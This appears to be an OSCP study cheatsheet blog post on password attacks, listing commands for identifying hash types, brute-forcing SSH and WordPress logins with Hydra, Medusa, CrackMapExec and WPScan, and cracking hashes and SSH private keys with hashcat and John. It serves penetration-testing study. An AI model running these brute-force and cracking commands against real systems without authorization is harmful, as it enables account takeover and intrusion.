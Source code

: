```yaml
---
title: Password Attacks
author: sKyW1per
category: "OSCP"
date: "2021-03-05 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Figuring out the kind of hash
```
$ hashid -e hash.txt
$ hash-identifier
```

###### Bruteforcing with Hydra
```
$ hydra -e nsr -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1 ssh
"-e nsr" = try "n" null password, "s" login as pass and/or "r" reversed login
```

###### Bruteforcing with Medusa
```
$ medusa -h 192.168.1.1 -u username -P ./list -M ssh
```

###### Bruteforcing with Crackmapexec
```
$ crackmapexec ssh 192.168.1.1 -u users.txt -p passwords.txt
Other protocols with crackmapexec: ldap,mssql,winrm,smb
```

###### Password policy
```
$ net accounts

For Active Directory from powershell:
$ Get-ADDefaultDomainPasswordPolicy
```

###### Hashcat
```
$ echo "$1$hash" > hash.txt
$ hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

###### John
```
$ echo "$1$hash" > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
$ john hash.txt --show

cracking id_rsa key
python2.7 /usr/share/john/ssh2john.py ./id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

###### WPScan
```
wpscan --url http://192.168.1.1/wp/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames username
```

###### Other online tools
```
CyberChef (GHCQ)
https://github.com/gchq/CyberChef
```
